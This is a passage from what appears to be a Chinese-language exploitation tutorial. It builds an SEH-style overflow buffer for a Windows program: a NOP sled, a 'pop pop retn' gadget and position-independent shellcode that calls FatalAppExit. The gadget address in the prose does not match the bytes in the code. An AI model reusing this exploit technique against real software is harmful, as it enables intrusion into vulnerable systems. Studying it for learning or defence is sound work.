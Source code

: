 在dll定位一个"pop pop retn"跳板指令地址(0x111211b6), 注意这个地址不能有两个或以上的'0'连续(如"\x06\x10"也是不行的)
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x011-008.png)

按如下组织shellcode
```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# 220 byte
"\x12\x10\x12\x11"		# pop eax pop eax retn
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# shellcode
```

pwn~